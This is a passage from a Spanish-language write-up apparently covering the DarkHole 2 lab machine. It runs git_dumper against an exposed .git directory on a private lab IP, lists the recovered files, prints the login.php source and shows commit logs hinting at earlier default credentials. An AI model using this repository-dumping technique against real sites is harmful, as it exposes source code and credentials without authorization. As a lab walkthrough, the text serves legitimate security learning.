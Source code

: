
## Explotación

Vamos a traernos el proyecto a nuestro equipo utilizando `git_dumper`:

```
python3 git_dumper.py http://192.168.233.130/.git darkhole2
[-] Testing http://192.168.233.130/.git/HEAD [200]
[-] Testing http://192.168.233.130/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://192.168.233.130/.git/ [200]
[-] Fetching http://192.168.233.130/.gitignore [404]
[-] http://192.168.233.130/.gitignore responded with status code 404
[-] Fetching http://192.168.233.130/.git/hooks/ [200]
[-] Fetching http://192.168.233.130/.git/logs/ [200]
[-] Fetching http://192.168.233.130/.git/HEAD [200]
```
Cuando termine, entramos a la carpeta que ha creado:

```
ls
config  dashboard.php  index.php  js  login.php  logout.php  style
```
Observamos todos los archivos del proyecto, si los revisamos encontraremos el panel de login:
```php
session_start();
require 'config/config.php';
if($_SERVER['REQUEST_METHOD'] == 'POST'){
    $email = mysqli_real_escape_string($connect,htmlspecialchars($_POST['email']));
    $pass = mysqli_real_escape_string($connect,htmlspecialchars($_POST['password']));
    $check = $connect->query("select * from users where email='$email' and password='$pass' and id=1");
    if($check->num_rows){
        $_SESSION['userid'] = 1;
        header("location:dashboard.php");
        die();
    }
```
El cual implementa funciones para evitar las injecciones.

Pero no encontramos más información, sin embargo, como es un proyecto de git vamos a ver si existen logs:
```
commit 0f1d821f48a9cf662f285457a5ce9af6b9feb2c4 (HEAD -> master)
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:14:32 2021 +0300

    i changed login.php file for more secure

commit a4d900a8d85e8938d3601f3cef113ee293028e10
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:06:20 2021 +0300

    I added login.php file with default credentials

commit aa2a5f3aa15bb402f2b90a07d86af57436d64917
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:02:44 2021 +0300

    First Initialize
```

